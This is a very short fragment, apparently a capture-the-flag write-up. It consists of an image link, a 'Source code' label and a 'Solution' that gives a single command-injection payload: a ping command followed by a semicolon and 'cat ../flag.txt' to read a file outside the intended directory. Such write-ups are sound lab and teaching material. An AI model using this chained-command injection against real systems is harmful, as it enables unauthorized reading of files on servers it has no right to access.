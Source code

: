 ## Solution
`/ping 127.0.0.1; cat ../flag.txt`

![e359bd80d221ad23775c72fa9f41030f.png](e359bd80d221ad23775c72fa9f41030f.png)